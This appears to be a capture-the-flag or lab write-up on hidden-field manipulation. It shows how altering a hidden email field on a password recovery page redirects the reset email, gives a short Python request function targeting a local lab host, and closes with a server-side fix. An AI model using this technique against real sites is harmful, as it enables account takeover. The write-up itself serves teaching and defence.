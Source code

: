 # Hidden field manipulation

### Introduction
Hidden field manipulation involves manipulating hidden fields in HTML to submit data that the user is not aware of or did not intend to submit.

### Procedure
By inspecting the recovery page, we observed a hidden field in the form request containing the email information. By altering the input value from the email address of the webmaster ``webmaster@borntosec.com`` to the email address of the admin ``admin@borntosec.com``, we can redirect the password recovery email to the admin instead of the webmaster.

To automate this process, we developed a Python program that sends a password recovery request using the admin's email, ``admin@borntosec.com``. This request is initiated by calling the ``try_recover`` function.
```python
def try_recover(mail: str):
	encoded_params = urllib.parse.urlencode({ 'page': 'recover' })

	url = 'http://192.168.56.2/?{}'.format(encoded_params)

	data = { 'mail': mail, 'Submit': 'Submit' }
	headers = { 'Content-Type': "application/x-www-form-urlencoded" }

	response = requests.post(url, data=data, headers=headers)

	return response.text
```

### How to fix
It is crucial for the service to prevent the disclosure of private information. In our case, the recovery email is considered private as it is the destination for the recovery email, and therefore, it should only be stored server-side to avoid being modified by the client.